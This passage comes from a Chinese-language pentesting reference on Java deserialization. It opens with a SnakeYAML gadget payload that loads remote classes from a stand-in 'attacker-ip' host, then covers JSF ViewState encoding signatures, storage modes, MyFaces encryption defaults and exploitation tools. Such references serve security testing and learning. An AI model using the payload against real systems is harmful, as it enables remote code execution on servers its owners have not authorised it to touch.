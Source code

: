 ```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

## ViewState

在 Java 中，ViewState 是指像 JavaServer Faces (JSF) 这样的框架用来在 Web 应用程序中保持 UI 组件状态的机制。主要有两种实现方式：

* Oracle Mojarra（JSF 参考实现）
* Apache MyFaces

**工具**：

* [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) - JexBoss: Jboss（以及其他 Java 反序列化漏洞）验证与利用工具
* [Synacktiv-contrib/inyourface](https://github.com/Synacktiv-contrib/inyourface) - InYourFace 是一个用于修补未加密和未签名 JSF ViewStates 的软件。

### 编码

| 编码      | 开头字符 |
| ---------- | -------- |
| base64     | `rO0`    |
| base64 + gzip | `H4sIAAA` |

### 存储

`javax.faces.STATE_SAVING_METHOD` 是 JavaServer Faces (JSF) 中的一个配置参数。它指定框架如何在 HTTP 请求之间保存组件树的状态（页面上 UI 组件的结构和数据）。

存储方法也可以从 HTML 主体中的视图状态表示形式推断出来。

* **服务器端**存储：`value="-XXX:-XXXX"`
* **客户端**存储：`base64 + gzip + Java 对象`

### 加密

默认情况下，MyFaces 使用 DES 作为加密算法，HMAC-SHA1 用于验证 ViewState。建议配置更现代的算法，如 AES 和 HMAC-SHA256。

| 加密算法 | HMAC       |
| -------- | ---------- |
| DES ECB（默认） | HMAC-SHA1  |

支持的加密方法有 BlowFish、3DES、AES，由上下文参数定义。
这些参数的值及其密钥可以在以下 XML 部分中找到。

```xml
<param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>   
<param-name>org.apache.myfaces.SECRET</param-name>   
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
```
